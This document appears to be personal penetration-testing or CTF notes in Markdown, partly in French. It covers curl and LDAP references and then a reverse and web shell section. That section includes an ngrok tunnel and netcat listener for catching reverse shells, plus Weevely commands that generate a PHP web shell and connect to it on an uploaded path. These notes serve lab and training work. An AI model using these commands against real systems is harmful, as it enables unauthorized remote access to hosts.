 ### Curl

`curl  is a tool for transferring data from or to a server. It supports these protocols: DICT, FILE, FTP, FTPS,
GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP, LDAPS, MQTT, POP3, POP3S, RTMP, RTMPS, RTSP, SCP, SFTP,  SMB,
SMBS, SMTP, SMTPS, TELNET or TFTP. The command is designed to work without user interaction.`

### HTTP

[Curl Options & POST](https://gist.github.com/subfuzion/08c5d85437d5d4f00e58)

### LDAP

- https://www-sop.inria.fr/members/Laurent.Mirtain/ldap-livre.html
- https://serverfault.com/questions/1083914/replace-anonymous-ldapsearch-command-with-curl-command

### Reverse/Web shell

Configurer son /etc/hosts

- https://stackoverflow.com/questions/12260587/kerberos-fails-when-accessing-site-by-ip-address

```bash
/etc/hosts
ip DOMAIN
ip DC
```

`Revere shell - Ngrok`

(Non nécessaire si l'attaquant et la cible sont sur le même réseau)

```bash
#term1
ngrok config add-authtoken TOKEN
ngrok tcp 4444
#Forwarding tcp://5.tcp.eu.ngrok.io:16833 -> localhost:4444
```

```bash
#term2
nc -nlvp 4444
```

`Web shell - Weevely`

```bash
weevely generate password shell.php5
weevely http://10.10.97.185/uploads/shell.php5 password
```

### Reverse Proxy

`Ip Spoofing`

```bash
sudo apt install nginx
```
